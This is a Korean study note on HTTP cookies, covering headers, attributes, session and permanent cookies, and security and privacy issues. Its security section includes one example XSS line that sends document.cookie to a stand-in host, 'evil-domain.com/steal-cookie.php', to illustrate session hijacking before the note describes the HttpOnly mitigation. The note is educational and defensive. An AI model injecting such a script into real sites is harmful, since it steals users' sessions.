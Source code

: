 ```yaml
---
title: "💻 03. HTTP 쿠키 :cookie:"
categories: network
tags: [ network ]
---
```


# HTTP 쿠키

## HTTP 쿠키란?

HTTP쿠키는 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 파일이다. 헨젤과 그레텔에서 주인공이 길을 지나며 남긴 빵 부스러기와 같다고 해서 붙여진 이름이다. 클라이언트는 그 데이터 파일을 저장해 놓았다가, 동일한 서버에 재 요청할 때 전송한다. 쿠키는 요청을 보낸 브라우저를 식별하는 데 주로 사용하며, 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜준다. 

## 쿠키의 목적

- 세션 관리(Session management)
  - 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization)
  - 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking)
  - 사용자 행동을 기록하고 분석하는 용도

## 클라이언트 측의 데이터 저장

데이터를 클라이언트 측에 저장할 때 쿠키를 사용하던 과거와 달리 지금은 modern storage APIs를 사용할 것이 권장된다. 쿠키는 모든 요청마다 함께 전송되기 때문에 성능이 저하될 수 있기 때문이다.

## 저장된 쿠키 보기

- 개발자 도구 > Storage Inspector -> 스토리지 트리의 쿠키 스토리지

## 쿠키 만들기

### Set-Cookie 응답헤더와 Cookie 요청헤더

- `Set-Cookie`: 서버: 클라이언트야 쿠키 저장해!

```
Set-Cookie: 쿠키이름=쿠키값
Set-Cookie: 쿠키이름=쿠키값
```

- `Cookie`: 브라우저: 서버로 이전에 저장했던 모든 쿠키들 회신

```
Cookie: 쿠키이름1=쿠키값1; 쿠키이름2=쿠키값2
```

### Session 쿠키와 Permanent 쿠키

`Expires`나 `Max-Age`를 명시하지 않을 경우 클라이언트가 종료되면 삭제되는 **Session 쿠키**가 된다.  명시하면 클라이언트가 닫힐 때 만료되지 않는 **Permanent 쿠키**가 된다.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; // Permanent 쿠키
```

### Secure 쿠키와 HttpOnly 쿠키

쿠키에 **Secure** 옵션을 줄 경우 **Https 프로토콜** 상에서 암호화된 요청일 경우만 전송된다.  **HttpOnly** 옵션을 줄 경우, **자바스크립트를 통해 쿠키 값에 접근하는 것을 막아** Cross-site 스크립팅 공격을 누그러뜨리는 데 도움을 줄 수 있다. 



### 쿠키의 스코프: Domain과 Path 속성

- `Domain`과 `Path` 디렉티브를 통해 특정 도메인 혹은 경로 제한 설정이 가능하다.
- `Domain`: 서브도메인 포함
  - 예를 들어, `Domain=naver.com`가 설정되면 쿠키들이 `dict.naver.com`, `news.naver.com`과 같은 서브 도메인 상에도 포함된다. 
- `Path`: 서브 디렉토리 포함
  - 예를 들어, `Path=/docs`가 설정되면 쿠키들이 `/docs`, `docs/Web/`, `docs/HTTP`와 같은 서브 디렉토리 상에도 포함된다.



### SameSite 쿠키

SameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 한다.

### Document.cookie를 사용한 자바스크립트 접근

- `Document.cookie`를 사용해 쿠키를 만들어낼 수 있다. `HttpOnly`플래그가 설저어되지 않은 경우 기본 쿠키들은 자바스크립트로부터 잘 접근될 수 있다

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy+cookie=choco; tasty_cookie=strawberry";
```



## 보안

### 세션 하이재킹과 XSS(Cross-Site Script**)**

**세션 하이재킹**이란 서버와 클라이언트 사이에서 이루어지는 통신에 낑겨서 클라이언트가 서버로 붙어 있는 세션을 탈취해오는 기술이다. **XSS(Cross-Site Script, 사이트 간 스크립팅)**는 권한이 없는 유저가 사이트 내에 악의적인 스크립트를 삽입하여 사용자의 쿠키, 세션 등을 탈취하거나, 의도하지 않은 비정상적인 행위를 하게끔 유도할 수 있는 취약점이다. 

HTTP 통신은 Stateless하기 때문에 기본적으로는 로그인을 해도 페이지 이동 시 로그아웃이 될 것이다. 따라서 서버는 세션을 이용하여 로그인 상태를 기억한다. 서버는 **Session** ID를 사용자에게 부여해주고 사용자는 쿠키를 이용해 Session ID를 저장한다. 공격자는 사용자와 서버 사이에 부여된 세션을 가로채 해당 사용자의 권한으로 사이트를 접근할 수 있게 된다. 소셜 공학을 사용하거나 애플리케이션 내의 XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.

```javascript
(new Image()).src = "https://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

그렇다면 이를 방지하기 위해서는 어떻게 해야 할까? 쿠키에 `HttpOnly` 속성을 주면 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 공격을 누그러뜨리는 데 도움을 줄 수 있다.

### Cross-site 요청 위조 (CSRF)

불특정 다수를 대상으로 로그인된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)을 요청하게 하는 공격이다. XXS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면, 사이트간 요청 위조는 특정 웹사이트가 사용자의 웹브라우저를 신용하는 상태를 노린 것이다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출된다.

## 트래킹과 프라이버시

### 서드파티 쿠키

퍼스트파티 쿠키는 웹사이트 운영자가, 서드파티는 외부 업체가 심는 것이다. 브라우저가 서드파티 쿠키를 지원하면 쿠키를 인터넷 광고 업체 등 제3자에게 제공하는 것으로 기업 광고의 주요 자원이 된다. 광고주는 해당 쿠키로 이용자 성향을 파악해 타겟팅 광고를 할 수 있다. 그러나 이로 인한 개인 정보 침해 문제로 최근 많은 브라우저에서 서드파티 쿠키 지원을 중단하겠다고 발표했다. 

### DNT 요청 헤더 (Do Not Track)

사이트 내부 혹은 사이트간 트래킹 모두를 비활성화하는 신호로 사용된다.

### 좀비 쿠키와 에버쿠키

좀비 쿠키는 삭제 이후에 다시 생성되는 쿠키이다. 클라이언트 측 스크립트가 여러 곳(웹 스토리지 API, Flash로컬 공유 객체 등)에 쿠키 내용을 저장하고, 스크립트가 쿠키가 없음을 알아차리면 각 위치에 저장되어 있는 데이터를 사용하여 쿠키를 재생성한다. Evercookie는 좀비 쿠키를 생산하는 자바스크립트 기반 어플리케이션이다. 



## Reference

https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies

[https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%9A%94%EC%B2%AD_%EC%9C%84%EC%A1%B0](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)

http://it.chosun.com/site/data/html_dir/2020/02/16/2020021600579.html

https://gmyankee.tistory.com/86

http://wiki-camp.appspot.com/%5B%EB%B2%88%EC%97%AD%5D_HTTP_Cookie_%28Wikipedia%29?rev=2

https://ko.wikipedia.org/wiki/%EC%B6%94%EC%A0%81_%EA%B8%88%EC%A7%80

https://youtu.be/i51xW3eh-T4